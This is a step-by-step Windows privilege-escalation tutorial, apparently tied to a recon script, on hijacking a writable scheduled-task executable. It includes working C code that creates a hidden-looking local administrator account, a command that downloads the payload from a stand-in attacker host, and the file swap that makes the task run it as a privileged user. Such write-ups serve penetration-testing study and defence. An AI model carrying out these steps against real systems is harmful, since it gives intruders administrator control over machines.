 ## Scheduled Tasks

### Overview
Windows Task Scheduler automates tasks such as updates, cleanup activities, or custom scripts. Each task contains **triggers** (conditions to execute) and **actions** (programs or scripts to run). If a scheduled task:
1. Runs as a privileged user (e.g., `SYSTEM` or `Administrator`), and
2. The specified action points to a writable executable or script,

then it can be abused for **privilege escalation**.

This tutorial will demonstrate how to identify and exploit misconfigured scheduled tasks.

---

### Step 1: Enumerate Scheduled Tasks
To identify tasks that may lead to privilege escalation, run **WinRecon.ps1**:

1. **Option 2**: Run Custom Recon - (Select which functions to enable).
2. **Option 17**: Enumerate scheduled tasks and check for writable executables.

#### Example Output:
![image](https://github.com/user-attachments/assets/3bcbb1bf-3fe7-442a-9b6e-3171b6b4d3fb)


In this example, the scheduled task **\Microsoft\CacheCleanup**:
- Runs as `daveadmin` (a privileged user).
- Executes `BackendCacheCleanup.exe`, located in a writable directory: `C:\Users\steve\Pictures`.
- Runs frequently, as indicated by the **Next Run Time**.

---

### Step 2: Verify Permissions on the Executable
Confirm that you have **Full Control** or **Write** permissions on the executable file specified in the task action:

```powershell
icacls C:\Users\steve\Pictures\BackendCacheCleanup.exe
```

**Output Example**:
```plaintext
C:\Users\steve\Pictures\BackendCacheCleanup.exe NT AUTHORITY\SYSTEM:(F)
                                                  BUILTIN\Administrators:(F)
                                                  CLIENTWK220\steve:(F)
```

The `(F)` indicates **Full Control**, meaning we can replace the executable.

---

### Step 3: Create a Malicious Executable
The goal is to replace the executable file with a malicious version that creates a local administrator user.

#### Malicious Executable Code
We will use C code to add a user and place them in the Administrators group:

```c
#include <stdlib.h>

int main() {
    system("net user taskmgrsvc Password123! /add");
    system("net localgroup administrators taskmgrsvc /add");
    return 0;
}
```

#### Compile the Executable
On your attacker machine, compile the C code:

```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

---

### Step 4: Replace the Scheduled Task Executable
Transfer the malicious executable to the target machine and replace the original task file:

1. Host the file using a Python HTTP server:
   ```bash
   python3 -m http.server 80
   ```
2. On the target machine, download the malicious file:
   ```powershell
iwr -Uri http://<attacker_ip>/adduser.exe -OutFile BackendCacheCleanup.exe
   ```
3. Backup the original executable and replace it:
   ```powershell
   move C:\Users\steve\Pictures\BackendCacheCleanup.exe BackendCacheCleanup.exe.bak
   move .\BackendCacheCleanup.exe C:\Users\steve\Pictures\
   ```
---

### Step 5: Wait for the Task to Execute
The scheduled task will execute automatically based on its trigger. Since this task runs every minute, wait for a short time, then verify that the malicious executable has been executed.

---

### Step 6: Verify Exploitation
Check if the user `taskmgrsvc` has been created and added to the local Administrators group:

1. List all user accounts:
   ```powershell
   net user
   ```
2. Verify the Administrators group:
   ```powershell
   net localgroup administrators
   ```

**Output Example**:
```plaintext
User accounts for \CLIENTWK220
-------------------------------------------------------------------------------
Administrator            taskmgrsvc              DefaultAccount

Alias name     administrators
Members
-------------------------------------------------------------------------------
Administrator
taskmgrsvc
```

The output confirms that the user `taskmgrsvc` was successfully added to the Administrators group.

---

### Step 7: Cleanup
Restore the original executable and clean up any traces of the exploit:

1. Delete the malicious executable:
   ```powershell
   del C:\Users\steve\Pictures\BackendCacheCleanup.exe
   ```
2. Restore the original file:
   ```powershell
   move BackendCacheCleanup.exe.bak C:\Users\steve\Pictures\BackendCacheCleanup.exe
   ```
3. Remove the created user:
   ```powershell
   net user taskmgrsvc /delete
   ```

---

### References
- [HackTricks - Scheduled Tasks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/scheduled-tasks)

---

